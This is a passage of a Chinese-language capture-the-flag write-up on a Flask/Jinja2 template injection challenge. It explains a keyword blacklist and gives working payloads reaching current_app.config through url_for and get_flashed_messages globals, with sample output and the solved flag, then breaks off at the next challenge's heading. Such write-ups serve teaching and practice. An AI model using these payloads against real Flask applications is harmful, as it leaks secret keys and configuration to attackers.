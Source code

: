 ```python
    app.run(debug=True)

```

其实源代码有问题，应该是这样的

```
@app.route('/shrine/<path:shrine>')
```

注意这个过滤

```python
''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) 
```

这个意思是，如果直接输入黑名单中的单词，会被模板引擎替换成None，而不是说把字符改变为None。因此这两个单词还是可以出现的，只不过不能单独出现。

想要引用config，需要获得当前app的对象。

flask中有一些内置函数，通过这些函数的globals()方法，可以获取很多属性。其中内置函数比较好用的就包括`url_for`和`get_flashed_messages`

这样注入

```
{{url_for.__globals__}}
```

获得了很多信息，其中current_app就是我们需要的。

```python
{'find_package': <function find_package at 0x7f49be53b140>, '_find_package_path': <function _find_package_path at 0x7f49be53b0c8>, 'get_load_dotenv': <function get_load_dotenv at 0x7f49be65da28>, '_PackageBoundObject': <class 'flask.helpers._PackageBoundObject'>, 'current_app': <Flask 'app'>,....
```

继续

```
{{url_for.__globals__['current_app'].config}}
```

就可以了。当然，另一个函数也是可以的

```
{{get_flashed_messages.__globals__['current_app'].config}}
```

`flag{323244f8-f7d2-43d4-9a4d-e6e420b4d30d}`

## [CISCN2019 华北赛区 Day1 Web1]Dropbox

